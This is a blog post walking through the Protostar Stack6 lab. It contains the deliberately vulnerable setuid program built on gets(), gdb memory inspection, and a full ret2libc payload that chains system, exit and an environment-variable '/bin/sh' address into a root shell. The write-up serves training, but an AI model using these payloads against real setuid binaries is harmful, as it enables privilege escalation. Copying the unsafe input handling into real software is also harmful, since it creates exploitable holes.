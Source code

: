 ```yaml
---
layout: post
title:  "Protostar Stack6 challenge"
date:   2018-04-22 18:26:36 +0530
categories: security protostar
---
```

[Stack6][stack6-proto-link] exercise has some restrictions on what addresses can we return to. If we try the usual method followed for [Stack5][stack5-proto-link] we're unable to spawn the shell. The source code for `Stack6` is 

{% highlight cpp %}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
{% endhighlight %}

The if condition `if((ret & 0xbf000000) == 0xbf000000)` is what prevents us from executing shell-code we keep in our stack.
The address of shellcode we had kept in stack begai=n with `0xbf` making if condition true. Can we not place our shell code some where in stack not staring with `0xbf`. Perhaps thats not possible.
We can check that in gdb
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6 
Breakpoint 1, main (argc=1, argv=0xbffff884) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) info proc map
process 2206
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	`0xbffeb000 0xc0000000    0x15000          0           [stack]`
(gdb) 
{% endhighlight %}
So memory mapped for stack area all start with `0xbf`. Thus we cannot execute code from our stack.
The challenge mentions ret2libc(return to lib c) which i used for this challenge. [ret2libc][ret2libc-tut-link] provides a good explanation of how this attack works.
I used the method mentioned in previous [tutorial][stack5-tut-link] to find out offset of `RET` from `buffer`. Which comes out to be `80(0x50)` in this case.
Next we find out address of system and exit commands
{% highlight nasm %}
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>
{% endhighlight %}
Now as mentioned in [ret2libc][ret2libc-tut-link] tutorial link our payload would be `[A*80][system][exit][cmd]`. `cmd` here will be the string '/bin/sh' or `/bin/bash`. Since `stack6` is a `setuid` program with owner as root, i should get root priviliges when shell is spawned. But after some failed attempts to use `/bin/bash` as cmd i found out that it drops root priviliges. But on trying with `/bin/sh` it did not drop root. Probably because of this [reason][bin-sh-so-link].
Further there are two ways to pass `/bin/sh` to payload. Either through enviroment variable or storing the string in stack memory. Continuing on following the [tutorial][ret2libc-tut-link] i first tried with environment variable. 
Instead of using C program as in tutorial to load /bin/sh to shell enviroment, simply do following in shell 
{% highlight shell_session %}
user@protostar:~$ export EGG="/bin/sh"
{% endhighlight %}
Then create a C program to get its address
{% highlight cpp%}
user@protostar:~$ cat getenv.c 
int main() {
	char *p = getenv("EGG");
	printf("ptr %p\n", p);
}
user@protostar:~$ ./getenv
ptr 0xbffffa24
{% endhighlight %}
But as mentioned in tutorial/over internet this address changes and depends upon calling program. So i fired up gdb to find actual address of EGG in `stack6` program.
{% highlight nasm %}
user@protostar:~$ gdb /opt/protostar/bin/stack6
(gdb) b main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) x/30s 0xbffffa24-30
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
0xbffffa06:	 <Address 0xbffffa06 out of bounds>
{% endhighlight %}
Here output shows i could not find `/bin/sh` string. On some previous trials i was able to find the string address as `0xbfffff97` but i was still unable to get shell using it, pointing out that the address was still different that used.
Luckily after some googling to find address of environment variable in a program i can upon this helpful [code][genenvaddr-link] which came to rescue.
{% highlight shell_session %}
user@protostar:~$ ./getenvaddr EGG /opt/protostar/bin/stack6
EGG will be at 0xbffffa02
{% endhighlight %}
Combining all information found it was time to prepare payload as `perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'`
and use it. But initial attempts failed. The shell was being dropped. 
{% highlight shell_session %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"'  | /opt/protostar/bin/stack6
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ /opt/protostar/bin/stack6 < p
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
user@protostar:~$
{% endhighlight %}
This was probably due to some issues with shell-redirection. But on doing it the same was as done was `stack5` i was able to get a root shell.
{% highlight shell_session %}
user@protostar:~$ perl -e 'print "A"x80 . "\xb0\xff\xec\xb7" . "\xc0\x60\xec\xb7" . "\x02\xfa\xff\xbf"' > p
user@protostar:~$ (cat p;cat) | /opt/protostar/bin/stack6
input path please: 
got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???AAAAAAAAAAAA????`????
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
{% endhighlight %}
So finally we were able to bypass the executable address checking by using ret2libc calls. We used `system` call to `/bin/sh` stored in shell environment.
And `exit` to gracefully exit from program after `system` return to it upon completion. `exit` also expects a parameter got around without passing. It would pick up any junk value after `[cmd]` and use it.

Next we will see how to do this by storing string `/bin/sh` in the stack itself.

[stack6-proto-link]:https://exploit-exercises.com/protostar/stack6/
[stack5-proto-link]:https://exploit-exercises.com/protostar/stack5/
[stack5-tut-link]:https://rawatm.github.io/security/protostar/2018/04/14/protostar-stack5/
[bin-sh-so-link]: https://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges
[genenvaddr-link]: https://gist.github.com/superkojiman/6a6e44db390d6dfc329a